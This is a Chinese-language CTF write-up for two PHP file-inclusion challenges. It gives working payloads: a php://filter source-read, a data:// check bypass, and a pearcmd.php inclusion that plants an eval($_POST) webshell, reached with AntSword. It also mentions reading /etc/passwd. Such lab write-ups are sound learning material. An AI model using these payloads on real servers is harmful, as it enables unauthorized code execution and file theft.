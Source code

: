 
第一题的write up如下:
先放flag

flag{H4v3_fvn_1NcIudE!}
第一题是比较基础的一个题
首先F12查看到html页面信息中包含了提示信息
简单的一个文件包含漏洞，查看url时候发现前面是filename=.....
遂猜测存在文件上传漏洞
于是构建payload如下：
http://39.106.13.193:8010/?filename=include%2Fflag.php&submit=提交查询

没有得到flag
于是想到了php伪协议
php伪协议有关知识点如下：
https://www.cnblogs.com/wjrblogs/p/12285202.html

参考这篇blog
PHP://
1. php://filter
作用：
读取源代码并进行base64编码输出
示例：
http://127.0.0.1/cmd.php?cmd=php://filter/read=convert.base64-encode/resource=[文件名]（针对php文件需要base64编码）

参数说明：
resource=<要过滤的数据流> 这个参数是必须的。它指定了你要筛选过滤的数据流
read=<读链的筛选列表> 该参数可选。可以设定一个或多个过滤器名称，以管道符（|）分隔。
write=<写链的筛选列表> 该参数可选。可以设定一个或多个过滤器名称，以管道符（|）分隔。
<；两个链的筛选列表> 任何没有以 read= 或 write= 作前缀 的筛选器列表会视情况应用于读或写链。
构建最终的payload得到base64编码下的信息，进行解码后得到flag
http://39.106.13.193:8010/?filename=php://filter/read=convert.base64-encode/resource=include%2Fflag.php&submit=%E6%8F%90%E4%BA%A4%E6%9F%A5%E8%AF%A2

第二题的write up：
首先flag是flag{1ncLud3_1s_1nt3R3sTiNg}
这个题有点历经千辛万苦了，了解到了文件的各种知识面。
1.check绕过
首先这个题的解题点在php自身的文件里面一个新的可以利用的LFI，这里的话参照p神的一篇文章是
Docker下php的裸文件绕过，blog链接如下
 https://www.leavesongs.com/PENETRATION/docker-php-include-getshell.html 

第一个地方就是绕过check变量的检测，这里涉及到了一个函数file_get_contents函数，该函数和file() 一样,只除了 file_get_contents() 把文件读入一个字符串 ，需要让他等于“LFI”这个字符串，这里就需要用到伪协议里面data了，关键知识点如下：
data://
#
作用：
 自PHP>=5.2.0起，可以使用data://数据流封装器，以传递相应格式的数据。通常可以用来执行PHP代码。一般需要用到base64编码传输

上面我发的blog里面有非常详细的关于php伪协议的知识。建议大家看一遍。我学到了很多通过这个blog，确实是我觉得最好的。
构建的payload如下：check=data://check/plain;base64,TEZJ（这里面的TEZJ是base64编码下的”LFI“字符串）。
这里你判断有没有成功绕过的话可以判断有没有执行die函数，如果没有绕过会有一个die"no"执行。

2.Include配合php中的pearcmd
include "a",这里了。
一开始我的想法是通过input://然后传入我想执行的代码来进行cat flag但发现我太天真了.....
首先需要了解一个关于docker下PHP裸文件本地包含漏洞
链接如下
https://www.leavesongs.com/PENETRATION/docker-php-include-getshell.html

了解完相关知识后，我用的方法是不出网改本地配置的方法，原本想试一试通过本地服务器映射一个远程包含文件漏洞，但是配置出了点问题，所以配置了一下本地的。
这里的话对这个漏洞大致介绍一点：（附上以下blog，解释的十分的清晰）
https://blog.csdn.net/rfrder/article/details/121042290

补充一个知识点： url传参传入php文件是不行的，因为在传入的时候会给你编码导致无法传入，所以用burp改包的方法传入。
这里的话建议和我一样刚入门的师傅可以看一看如何利用burp进行改包发送。熟悉以下burp这个工具的使用，拦截后ctrl+R可以快速发给repeater。
https://blog.csdn.net/jinzhichaoshuiping/article/details/47324955

最后的payload如下:（部分有微小改动，便于大家思考）
?check=data://check/plain;base64,TEZJ&file=....../pearcmd.php&+-c+/tmp/***.php+-d+man_dir=<?eval($_POST[*]);?>+-s+

这里的话pearcmd路径并不是都一样的 有些环境下可能在/share里。
成功传入了我自己的马（在这里有一个方法可以测试是否传入成功，可以直接访问传入路径的传入文件，如果显示出了部分编码代表上传成功，无提示则上传失败）
然后通过antsword进行连接，经典一句话木马，连接成功。在目录下找到了flag
antsword下载地址附上
https://github.com/AntSwordProject/AntSword-Loader

该题也可以通过eval[_get[]]进行传马，因为本人水平有限，写入get失败，希望大佬指点一下利用get写入一句话shell后如何操作。具体思路师傅指点是可以利用里面的值进行执行代码操作。

最后补充一些做题时候意外发现的小技巧吧。如果靶机非动态的话利用伪协议可以阅读到一些你想知道的内容（如果有的话
通过这两个题学到了 远程文件上传（通过远程服务器包含shell），pearcmd LFI漏洞，顺便学习了如何用docker复现环境，当一些关键点卡住的时候可以手动本地搭建环境学习一下。
还有常见的一些目录日志文件，来访问服务器信息比如../../../etc/passwd等，暂时找不到那个博客了，有时间再找一找放上来。

顺便想问一下各位师傅，远程文件包含漏洞如果自己有服务器的话80端口用不了可以通过别的端口来进行包含上传shell么，今天没尝试出来
